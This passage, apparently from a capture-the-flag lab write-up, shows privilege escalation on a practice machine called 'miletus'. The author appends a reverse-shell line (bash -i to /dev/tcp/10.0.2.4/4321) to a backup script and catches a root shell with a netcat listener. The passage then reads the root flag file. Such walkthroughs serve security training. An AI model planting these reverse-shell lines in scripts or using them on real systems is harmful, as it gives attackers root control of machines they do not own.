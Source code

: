 ```bash
# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
bash -c 'exec bash -i &>/dev/tcp/10.0.2.4/4321 <&1'
```
My command was added succesfully to the file at the end of the file. 
Now I had to start a netcat listener on port 4321.
```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 4321       
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4321
Ncat: Listening on 0.0.0.0:4321
```
My netcat listener was running on port 4321 and now I only have to wait for it! A moment to take a break and get something to drink.
```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 4321       
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4321
Ncat: Listening on 0.0.0.0:4321
Ncat: Connection from 10.0.2.6.
Ncat: Connection from 10.0.2.6:53570.
bash: cannot set terminal process group (13678): Inappropriate ioctl for device
bash: no job control in this shell
root@miletus:~# 
```
When I came back I noticed a username **root@miletus**. Let's see if this is correct by using the following command: **whoami;id;hostname;cat /root/root.txt**
```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 4321       
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4321
Ncat: Listening on 0.0.0.0:4321
Ncat: Connection from 10.0.2.6.
Ncat: Connection from 10.0.2.6:53570.
bash: cannot set terminal process group (13678): Inappropriate ioctl for device
bash: no job control in this shell
root@miletus:~# whoami;id;hostname;cat /root/root.txt
whoami;id;hostname;cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
miletus
3a1c85bebf8833b0ecae900fb8598b17
```